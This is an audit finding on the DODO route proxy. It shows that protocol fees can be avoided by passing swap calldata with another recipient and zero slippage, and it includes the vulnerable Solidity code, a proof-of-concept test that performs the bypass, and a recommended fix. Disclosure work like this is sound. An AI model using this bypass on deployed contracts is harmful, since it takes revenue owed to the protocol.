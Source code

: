 rvierdiiev

medium

# Protocol fees can be bypassed

## Summary
Protocol fees can be bypassed if swap calldata provided with different recipient
## Vulnerability Detail
DODORouteProxy.externalSwap allows to make swap using external whitelisted protocol like 1inch, paraswap.
Before the swap protocol checks the balance of token that is destination swap token and then it does the same after the swap to know how much tokens were received. Then part of this tokens are sent as fees and the rest is sent to the caller.

https://github.com/sherlock-audit/2022-11-dodo/blob/main/contracts/SmartRoute/DODORouteProxy.sol#L194-L223
```solidity
        uint256 toTokenOriginBalance;
        if(toToken != _ETH_ADDRESS_) {
            toTokenOriginBalance = IERC20(toToken).universalBalanceOf(address(this));
        } else {
            toTokenOriginBalance = IERC20(_WETH_).universalBalanceOf(address(this));
        }


        {
            require(swapTarget != _DODO_APPROVE_PROXY_, "DODORouteProxy: Risk Target");
            (bool success, bytes memory result) = swapTarget.call{
                value: fromToken == _ETH_ADDRESS_ ? fromTokenAmount : 0
            }(callDataConcat);
            // revert with lowlevel info
            if (success == false) {
                assembly {
                    revert(add(result,32),mload(result))
                }
            }
        }


        // calculate toToken amount
        if(toToken != _ETH_ADDRESS_) {
            receiveAmount = IERC20(toToken).universalBalanceOf(address(this)) - (
                toTokenOriginBalance
            );
        } else {
            receiveAmount = IERC20(_WETH_).universalBalanceOf(address(this)) - (
                toTokenOriginBalance
            );
        }
```

However there are some methods in exchanges that allows to provide recipient of swapped tokens. In this case swapped tokens will come directly to the address of recipient and DODORouteProxy will think that he received 0 tokens. Also because there is no check that slippage should be bigger than 0, the swap will succeed. In such way sender will avoid fees. 

I have created test were the swap was executed from ETH to another token. No fees was paid for the swap.
Put this test into `DODORouteProxy.test.ts` file.
```js
it.only('external swap no fees', async () => {
    
    // set approve white list and swap white list
    await dodoRouteProxy.connect(alice).addWhiteList(mockAdapterw_2.address);
    await dodoRouteProxy.connect(alice).addApproveWhiteList(mockAdapterw_2.address);

    let abiCoder = new ethers.utils.AbiCoder();
    let feeData = await abiCoder.encode(["address", "uint256"], [brokerAddr, "2000000000000000"])

    let ABI = ["function externalSwap(address to, address fromToken, address toToken, uint256 fromAmount)"]
    let itf = new ethers.utils.Interface(ABI)
    let callData2 = itf.encodeFunctionData("externalSwap", [bobAddr, _ETH_, token2.address, BIG_NUMBER_1E18.mul(1).toString()])
    
    await dodoRouteProxy.connect(bob).externalSwap(
      _ETH_,
      token2.address,
      mockAdapterw_2.address,
      mockAdapterw_2.address,
      BIG_NUMBER_1E18.mul(1).toString(),
      "0",
      feeData,
      callData2,
      "99999999999",

      {value: ethers.utils.parseEther("1.0")}
    )

    let afterBalance = await token2.balanceOf(bobAddr)
    let afterReceiver = await token2.balanceOf(proxy1Addr)
    let afterBroker = await token2.balanceOf(brokerAddr)

    expect(etherToNumber(afterBalance)).to.be.eq(120)
    //we didn't receive any fee
    expect(etherToNumber(afterReceiver)).to.be.eq(0)
    expect(etherToNumber(afterBroker)).to.be.eq(0)
  });
```
## Impact

## Code Snippet
Provided above
## Tool used

Manual Review

## Recommendation
Check that slippage is greater than 0.